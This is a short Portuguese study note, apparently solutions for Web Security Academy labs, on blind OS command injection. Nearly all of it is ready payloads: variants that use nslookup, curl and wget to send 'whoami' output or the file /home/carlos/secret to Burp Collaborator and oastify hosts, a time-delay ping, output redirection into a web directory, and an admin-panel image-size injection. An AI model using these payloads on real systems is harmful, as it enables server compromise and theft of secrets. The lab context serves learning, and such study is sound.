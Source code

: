 # OS Command Injection

Probabilidade: $${\color{red}alta}$$.

<br>

Normalmente o **Command Injection** aparece nos parâmetros que envolvem e-mail, como na feature the submeter feedback.

Aprenda alguns comandos além do que é ensinado nos laboratórios para exfiltrar dados, visto que nem sempre o comando que você testa primeiro existe ou funciona no alvo.

Algumas variações:
```
nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN

curl+burp.oastify.com?c=`whoami`

nslookup+-q=cname+$(whoami).burp.oastify.com

$(curl $(cat /home/carlos/secret).OASTIFY.COM)

/usr/bin/wget --post-file /home/carlos/secret https://collaborator/
```

<br>

## Laboratórios

**Blind OS Command Injection with Time Delays**
```
email=x||ping+-c+10+127.0.0.1||
```

<br>
<br>

**Blind OS Command Injection with Output Redirection**

Tem um diretório passível de escrita em `/var/www/images/`.
```
||+whoami+>+/var/www/images/whoami.txt||
```

Acesse o arquivo em: `/image?filename=whoami.txt`.

<br>
<br>

**Blind OS Command Injection with Out-of-Band Interaction**
```
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
```

<br>
<br>

**Blind OS Command Injection with Out-of-Band Data Exfiltration**
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```

<br>
<br>

**Admin Panel ImgSize Command Injection**
```
/admin-panel/admin_image?image=/blog/posts/50.jpg&ImageSize="200||nslookup+$(cat+/home/carlos/secret).<collaborator>%26"  
```

Outra opção:
```
ImgSize="`/usr/bin/wget%20--post-file%20/home/carlos/secret%20https://collaborator/`"
```

